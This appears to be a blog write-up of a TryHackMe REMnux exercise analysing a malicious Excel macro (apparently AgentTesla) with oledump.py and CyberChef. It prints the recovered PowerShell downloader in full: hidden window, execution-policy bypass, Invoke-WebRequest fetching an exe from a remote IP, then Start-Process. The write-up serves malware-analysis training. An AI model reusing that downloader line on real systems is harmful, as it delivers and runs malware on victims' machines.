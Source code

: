 ```yaml
---
title: "TryHackMe: REMnux Getting Started - Task 3 File Analysis"
author: Dustin Merritt
categories: [TryHackMe]
tags: [remnux, oledump, malware, vba, static analysis, cyberchef]
render_with_liquid: false
media_subpath: /images/tryhackme_remnux/
image:
  path: room_image.webp
---
```


In this TryHackMe room, we used **REMnux** to analyze a suspicious Excel document named `agenttesla.xlsm`. We leveraged the `oledump.py` tool to extract and examine embedded macros, then used **CyberChef** to clean and interpret an obfuscated PowerShell payload. This exercise demonstrated a realistic scenario where VBA macros are used to drop malware onto a target system.

[![TryHackMe Room Link](room_image.webp){: width="300" height="300" .shadow}](https://tryhackme.com/room/remnuxgettingstarted){: .center }

## Initial Setup

We started by opening the **REMnux VM** and navigating to the provided file path:

```bash
cd /home/ubuntu/Desktop/tasks/agenttesla/
```

Running `oledump.py` on `agenttesla.xlsm` revealed several streams, notably:

```bash
oledump.py agenttesla.xlsm
```

Output:
```
A: xl/vbaProject.bin
 A1:       468 'PROJECT'
 A2:        62 'PROJECTwm'
 A3: m     169 'VBA/Sheet1'
 A4: M     688 'VBA/ThisWorkbook'
 A5:         7 'VBA/_VBA_PROJECT'
 A6:       209 'VBA/dir'
```

The stream labeled `A4` contains a **macro** (`M` flag), suggesting potential malicious behavior.

## Macro Extraction

We extracted the contents of the macro using:

```bash
oledump.py agenttesla.xlsm -s 4
```

This provided raw hex output, but it was difficult to interpret. To decode the VBA macro, we added the `--vbadecompress` flag:

```bash
oledump.py agenttesla.xlsm -s 4 --vbadecompress
```

The output revealed a familiar PowerShell obfuscation pattern using `*` and `^` as noise characters:

```vb
Sqtnew = "^p*o^*w*e*r*s^^*h*e*l^*l* ... -Uri "http://193.203.203.67/rt/Doc-3737122pdf.exe" ..."
```

## PowerShell Deobfuscation with CyberChef

To make the PowerShell command human-readable, we used **CyberChef**:

- Apply two **Find/Replace** operations:
  - Replace `*` with an empty string
  - Replace `^` with an empty string

> 🔽 **Insert screenshot of CyberChef here showing the Find/Replace steps and the cleaned PowerShell script**

Once cleaned, the PowerShell command was clearly a downloader:

```powershell
powershell -WindowStyle hidden -executionpolicy bypass;
$TempFile = [IO.Path]::GetTempFileName() | Rename-Item -NewName { $_ -replace 'tmp$', 'exe' } PassThru;
Invoke-WebRequest -Uri "http://193.203.203.67/rt/Doc-3737122pdf.exe" -OutFile $TempFile;
Start-Process $TempFile;
```

## What Does This Do?

- **Hidden Window**: Avoid user suspicion
- **Bypass Execution Policy**: Allow running potentially blocked scripts
- **Download EXE**: Grab `Doc-3737122pdf.exe` from a suspicious IP
- **Execute**: Run the file on the target machine

This macro behavior is a classic example of **initial access malware delivery**, likely a variant of **AgentTesla**, a popular information stealer.

## Bonus: Analyzing `possible_malicious.docx`

We applied the same technique to `possible_malicious.docx`:

```bash
oledump.py possible_malicious.docx
```

Output:
```
... 16 data streams ...
... macro present at stream 8 ...
```

Another suspicious macro! These steps could easily be repeated to investigate further.

## Wrap-Up

This TryHackMe challenge was a practical introduction to static malware analysis using REMnux. Tools like `oledump.py` and CyberChef make reverse-engineering obfuscated macros more accessible. Remember, even Excel files can be trojan horses — always analyze before opening!

## Key Takeaways

- **Tool used**: `oledump.py`
- **Macro identified in stream**: `A4`
- **PowerShell function for downloading files**: `Invoke-WebRequest`
- **Downloaded file name**: `Doc-3737122pdf.exe`
- **Downloaded location**: `$TempFile`

---

<style>
.center img {
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>
